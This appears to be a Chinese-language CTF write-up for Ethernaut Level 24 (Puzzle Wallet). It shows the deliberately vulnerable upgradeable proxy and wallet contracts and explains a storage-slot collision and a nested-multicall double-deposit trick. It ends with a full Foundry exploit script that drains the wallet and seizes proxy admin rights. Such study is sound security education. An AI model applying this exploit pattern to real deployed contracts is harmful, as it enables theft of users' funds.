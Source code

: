 # Level 24 - Puzzle Wallet
## 題目
[Puzzle Wallet](https://ethernaut.openzeppelin.com/level/0x725595BA16E76ED1F6cC1e1b65A88365cC494824)

### 通關條件
事實上，如今，為 DeFi 作業付費是不可能的。
一群朋友發現瞭如何透過將多筆交易批量處理為一筆交易來稍微降低執行多筆交易的成本，因此他們開發了一個智能合約來實現這一點。
他們需要該合約能夠升級，以防程式碼包含錯誤，並且他們還希望防止組外的人使用它。為此，他們投票並分配了兩個在系統中具有特殊角色的人：管理員，有權更新智能合約的邏輯。所有者，控制允許使用合約的地址白名單。合約已部署，該組已列入白名單。每個人都為自己對抗邪惡礦工的成就而歡呼。
他們殊不知，他們的午餐錢正處於危險之中…
您需要劫持此錢包才能成為代理的管理員。
### 提示
- 了解執行一項操作時如何delegatecall運作以及如何msg.sender表現msg.value。
- 了解代理模式及其處理儲存變數的方式。
### 合約內容
```solidity

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
pragma experimental ABIEncoderV2;

import "../helpers/UpgradeableProxy-08.sol";

contract PuzzleProxy is UpgradeableProxy {
    address public pendingAdmin;
    address public admin;

    constructor(address _admin, address _implementation, bytes memory _initData)
        UpgradeableProxy(_implementation, _initData)
    {
        admin = _admin;
    }

    modifier onlyAdmin() {
        require(msg.sender == admin, "Caller is not the admin");
        _;
    }

    function proposeNewAdmin(address _newAdmin) external {
        pendingAdmin = _newAdmin;
    }

    function approveNewAdmin(address _expectedAdmin) external onlyAdmin {
        require(pendingAdmin == _expectedAdmin, "Expected new admin by the current admin is not the pending admin");
        admin = pendingAdmin;
    }

    function upgradeTo(address _newImplementation) external onlyAdmin {
        _upgradeTo(_newImplementation);
    }
}

contract PuzzleWallet {
    address public owner;
    uint256 public maxBalance;
    mapping(address => bool) public whitelisted;
    mapping(address => uint256) public balances;

    function init(uint256 _maxBalance) public {
        require(maxBalance == 0, "Already initialized");
        maxBalance = _maxBalance;
        owner = msg.sender;
    }

    modifier onlyWhitelisted() {
        require(whitelisted[msg.sender], "Not whitelisted");
        _;
    }

    function setMaxBalance(uint256 _maxBalance) external onlyWhitelisted {
        require(address(this).balance == 0, "Contract balance is not 0");
        maxBalance = _maxBalance;
    }

    function addToWhitelist(address addr) external {
        require(msg.sender == owner, "Not the owner");
        whitelisted[addr] = true;
    }

    function deposit() external payable onlyWhitelisted {
        require(address(this).balance <= maxBalance, "Max balance reached");
        balances[msg.sender] += msg.value;
    }

    function execute(address to, uint256 value, bytes calldata data) external payable onlyWhitelisted {
        require(balances[msg.sender] >= value, "Insufficient balance");
        balances[msg.sender] -= value;
        (bool success,) = to.call{value: value}(data);
        require(success, "Execution failed");
    }

    function multicall(bytes[] calldata data) external payable onlyWhitelisted {
        bool depositCalled = false;
        for (uint256 i = 0; i < data.length; i++) {
            bytes memory _data = data[i];
            bytes4 selector;
            assembly {
                selector := mload(add(_data, 32))
            }
            if (selector == this.deposit.selector) {
                require(!depositCalled, "Deposit can only be called once");
                // Protect against reusing msg.value
                depositCalled = true;
            }
            (bool success,) = address(this).delegatecall(data[i]);
            require(success, "Error while delegating call");
        }
    }
}
```
## 解題
這題牽扯到 Proxy Contract，建議先看完 [WTF Solidity极简入门: 46. 代理合约
](https://github.com/AmazingAng/WTF-Solidity/tree/main/46_ProxyContract)

這題可以看到代理合約跟邏輯合約的變數宣告不一致，storage slot 會產生衝突。所以我們只要透過 `proposeNewAdmin()`（23 行）修改代理合約的 `pendingAdmin`，就會因為 slot 衝突進而修改到 `PuzzleWallet` 的 `owner`（都是第一個宣告的變數）。順利取得 `PuzzleWallet` 的 owner 權限。
```solidity
level24Proxy.proposeNewAdmin(msg.sender);
```
接下來就是要奪取 `PuzzleProxy` 的 admin 權限。跟剛剛一樣，我們的目標是修改 `PuzzleWallet` 的 `maxBalance` 讓 admin 跟著一起改變。改變 `maxBalance` 的 function 在第 54 行，要先通過 modifier `onlyWhitelisted()`，所以要把自己加入到白名單中，透過 59 行的 `addToWhitelist()`。
接下來要通過 55 行的 `require(address(this).balance == 0)`，必須將合約中的幣題光，合約中有 0.001 eth，雖然 `execute()` 可以提款但是只能提取自己存進去的 eth，所以現在要想辦法讓自己在 `PuzzleWallet` 中的錢顯示 0.002 但其實只有存入 0.001。
這裡要用到合約中最後的 function `multicall(bytes[] calldata data)`（76 行），他會將參數 `data[]` 中存入的 function 逐一執行，所以我們只要 `[deposit, [multicall, deposit]]` 就可以實現只放入 0.001 但執行兩次 `deposit()` 的效果。
```solidity
bytes[] memory depositSelector = new bytes[](1);
depositSelector[0] = abi.encodeWithSelector(level24Wallet.deposit.selector);
bytes[] memory nestedMulticall = new bytes[](2);
nestedMulticall[0] = abi.encodeWithSelector(level24Wallet.deposit.selector);
nestedMulticall[1] = abi.encodeWithSelector(level24Wallet.multicall.selector, depositSelector);
level24Wallet.addToWhitelist(msg.sender);
level24Wallet.multicall{value: 0.001 ether}(nestedMulticall);
level24Wallet.execute(msg.sender, 0.002 ether, "");
level24Wallet.setMaxBalance(uint256(uint160(msg.sender)));
```
關於 MultiCall 也可以參考 [WTF Solidity极简入门: 55. 多重调用
](https://github.com/AmazingAng/WTF-Solidity/blob/main/55_MultiCall/readme.md)。最後攻擊合約如下：
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

import "forge-std/Script.sol";
import "../src/Ethernaut Challenge/24_PuzzleWallet.sol";

contract ExploitScript is Script {
    PuzzleProxy level24Proxy = PuzzleProxy(payable(your_challenge_address));
    PuzzleWallet level24Wallet = PuzzleWallet(payable(your_challenge_address));
    
    function run() external {
        vm.startBroadcast();

        level24Proxy.proposeNewAdmin(msg.sender);

        bytes[] memory depositSelector = new bytes[](1);
        depositSelector[0] = abi.encodeWithSelector(level24Wallet.deposit.selector);
        bytes[] memory nestedMulticall = new bytes[](2);
        nestedMulticall[0] = abi.encodeWithSelector(level24Wallet.deposit.selector);
        nestedMulticall[1] = abi.encodeWithSelector(level24Wallet.multicall.selector, depositSelector);
        level24Wallet.addToWhitelist(msg.sender);
        level24Wallet.multicall{value: 0.001 ether}(nestedMulticall);
        level24Wallet.execute(msg.sender, 0.002 ether, "");
        level24Wallet.setMaxBalance(uint256(uint160(msg.sender)));

        vm.stopBroadcast();
    }
}
```

